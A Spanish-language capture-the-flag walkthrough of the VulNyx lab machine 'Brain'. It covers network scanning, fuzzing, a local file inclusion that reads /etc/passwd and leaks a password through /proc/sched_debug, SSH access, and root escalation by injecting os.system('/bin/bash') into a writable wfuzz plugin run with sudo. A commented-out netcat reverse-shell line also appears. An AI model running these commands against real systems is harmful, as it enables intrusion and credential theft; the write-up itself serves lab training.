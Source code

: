 ```yaml
---
layout: post
title: "Brain"
date: 2024-04-19 12:57:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Brain </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#brain"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/brain/host.png){:.margin}{:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![host](/notas/public/img/vulnyx/brain/arp_scan.png){:.margin}

**2\.** Escaneamos puertos del host víctima.

`sudo nmap -p- -sS -T5 -sCV --open --min-rate=5000 -n -Pn 192.168.1.7 -oN report_scan`

![host](/notas/public/img/vulnyx/brain/nmap.png){:.margin}

**3\.** Visitamos el servicio Apache por el puerto 80.

`http://192.168.1.7/`

![host](/notas/public/img/vulnyx/brain/80.png){:.margin}

**4\.** Hacemos fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.7/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![host](/notas/public/img/vulnyx/brain/gobuster.png){:.margin}

- Si visitamos index.php vemos lo mismo:

![host](/notas/public/img/vulnyx/brain/index.png){:.margin}

**5\.** Hacemos fuzzing de parámetros en busca de un LFI..

`wfuzz -c -t 50 --hl=7 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.7/index.php?FUZZ=/etc/passwd'`

![host](/notas/public/img/vulnyx/brain/wffuz.png){:.margin}

**6\.** Ingresamos la ruta completa con el parámetro hallado.

`http://192.168.1.7/index.php?include=/etc/passwd`

![host](/notas/public/img/vulnyx/brain/include.png){:.margin}

_tenemos inclusion de archivos locales (LFI)_

- Si presionamos `ctrl + u` podemos visualizar mejor, y encontramos el usuario ben:

![host](/notas/public/img/vulnyx/brain/ben.png){:.margin}

**7\.** incluimos el la ruta sched_debug, donde podemos ver la contraseña de ben.

`view-source:http://192.168.1.7/index.php?include=/proc/sched_debug`

![host](/notas/public/img/vulnyx/brain/sched_debug.png){:.margin}

_\- Si un servidor web tiene una vulnerabilidad LFI y permite acceder a esta ruta, un atacante podría obtener información confidencial, como contraseñas almacenadas en memoria._

**8\.** Accedemos por ssh al host como el usuario ben.

`ssh ben@192.168.1.7`

![host](/notas/public/img/vulnyx/brain/ssh_ben.png){:.margin}

**9\.** Listamos permisos sudo, podemos ejecutar el binario wfuzz como root.

`sudo -l`

![host](/notas/public/img/vulnyx/brain/sudo_l.png){:.margin}

_\- buscando en la web [gtfobins](https://gtfobins.github.io/#wfuzz) no encontramos referencia alguna._

**10\.** Buscamos archivos con permisos de escritura relacionados al binario wfuzz.

`find / -type f -writable 2> /dev/null | grep wfuzz`

![](/notas/public/img/vulnyx/brain/find.png){:.margin}

**11\.** Agregamos estas 2 lineas para obtener una bash.

`nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`

`import os`

`os.system("/bin/bash")`

![](/notas/public/img/vulnyx/brain/nano.png){:.margin}

<!-- os.system("nc -e (/bin/sh 192.168.1.12 443") ///alternativa enivarnos una shell -->

**12\.** Ejecutamos el binario como root, ya somos superusuario.

`sudo /usr/bin/wfuzz -c -z range 1-2`

![](/notas/public/img/vulnyx/brain/root.png){:.margin}

**13\.** Finalizamos leendo la flag de root.

`cd`

`ls`

`cat root.txt`

![](/notas/public/img/vulnyx/brain/flag.png){:.margin}

<br>

##### **_finalizado._**